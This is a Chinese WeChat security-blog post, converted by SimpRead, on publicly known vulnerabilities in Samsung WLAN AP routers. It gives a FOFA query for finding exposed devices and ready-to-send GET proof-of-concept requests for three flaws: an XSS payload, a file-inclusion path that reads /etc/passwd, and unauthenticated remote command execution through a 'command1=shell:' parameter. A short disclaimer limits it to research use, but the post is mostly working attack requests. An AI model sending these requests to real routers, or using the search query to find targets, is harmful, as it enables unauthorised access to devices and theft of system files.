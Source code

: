 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GfXw4MgXwPDzslqYIZijtQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ldFaBNSkvHjdIlmWrpGeTwTIBfKLnVwODb2rcD60OH0GrDfgS1grU4azvLhLyGmQwA4CUGprEVo2TUk2yMZvDA/640?wx_fmt=gif)

无聊来吃个瓜，网传三星路由器漏洞，据说是 0DAY，可是这个漏洞在去年就被曝光了。也不知道流传炒作的 0DAY 是不是这个漏洞，最后附带原文链接

FOFA 搜索语法：title=="Samsung WLAN AP"

![](https://mmbiz.qpic.cn/mmbiz_gif/FIBZec7ucCgp5qKoq2LZ7qzM4YkjoMocD51tfJ3nutnEwSyO7oo2nTuicuvI0lAuGkSbwDhctEnibgUteCYcQQgQ/640?wx_fmt=gif)

Vulnerability#1

1

漏洞类型:

XSS

2

漏洞利用条件:

无

3

漏洞详情:

1. 直接访问目标即可

```
https://xxx.xxx.xxx.xxx/%3Cscript%3Ealert(1)%3C/script%3E
```

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/PDdTPicsmh4hamLYz6adgYVP1D0lFrKibMtqPEmnCXt4uk0Bv4Rd9xjc7ZInypdpZAbGCrmvzL43gCqVwTk5GUGg/640?wx_fmt=jpeg)

  

  

4

漏洞 POC:

```
GET https://xxx.xxx.xxx/<script>alert(1)</script>
```

![](https://mmbiz.qpic.cn/mmbiz_gif/FIBZec7ucCgp5qKoq2LZ7qzM4YkjoMocD51tfJ3nutnEwSyO7oo2nTuicuvI0lAuGkSbwDhctEnibgUteCYcQQgQ/640?wx_fmt=gif)

Vulnerability#2

1

漏洞类型:

本地文件包含

2

漏洞利用条件:

无

3

漏洞详情:

1. 直接访问目标即可  

```
https://xxx.xxx.xxx.xxx/ (download)/etc/passwd
```

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/PDdTPicsmh4hamLYz6adgYVP1D0lFrKibMc3C8f4hCbo2IA6FvPvvWJrWp8WiabZ5GfTo8LlxQSxPdsFoaW2omSgw/640?wx_fmt=jpeg)

  

  

4

漏洞 POC:

```
GET https://xxx.xxx.xxx.xxx/ (download)/etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_gif/FIBZec7ucCgp5qKoq2LZ7qzM4YkjoMocD51tfJ3nutnEwSyO7oo2nTuicuvI0lAuGkSbwDhctEnibgUteCYcQQgQ/640?wx_fmt=gif)

Vulnerability#3

1

漏洞类型:

远程命令执行

2

漏洞利用条件:

无

3

漏洞详情:

1. 直接访问目标即可

```
https://xxx.xxx.xxx.xxx/(download)/tmp/a.txt?command1=shell:ls%20-la%20|%20dd%20of=/tmp/a.txt
```

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/PDdTPicsmh4hamLYz6adgYVP1D0lFrKibMAoJkv2fxaibBx8OWuwg0w21Bf0lfa8EfSlriahVtYGrZ03Fich7Iua1Sw/640?wx_fmt=jpeg)

  

  

4

漏洞 POC:

```
GET https://xxx.xxx.xxx.xxx/(download)/tmp/a.txt?command1=shell:ls%20-la%20|%20dd%20of=/tmp/a.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/JGvzrR1zc4TE1OMlzTiau6mjXv62SiaK7dkWsS6HCshficjNbyAiclEcMfcGV4E7kSicQ7icEiawJYvXXbMyNKjKLwPjQ/640?wx_fmt=png)

END

**注：此文章只用于漏洞研究，切勿用于违法用途。因滥用产生的一切后果与本公众号无关。**

**参考文章:**

**https://iryl.info/2020/11/27/exploiting-samsung-router-wlan-ap-wea453e/**

扫码关注更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1mCib9dkVB5y1C6qmicKolbLfGWxEicYWjP6VSUx296cUWj3dBrqtDfb6g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1ibz8zRr774rnu7TERPQHpcV0icbu9fCs0mRjWZuicS2kmLXFHkCKYicpUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1gibj2XWCGAOvCNqttdEicsvUCVPj3NXzZuaXyXqSIVSTeGwKuGzhfLmw/640?wx_fmt=png)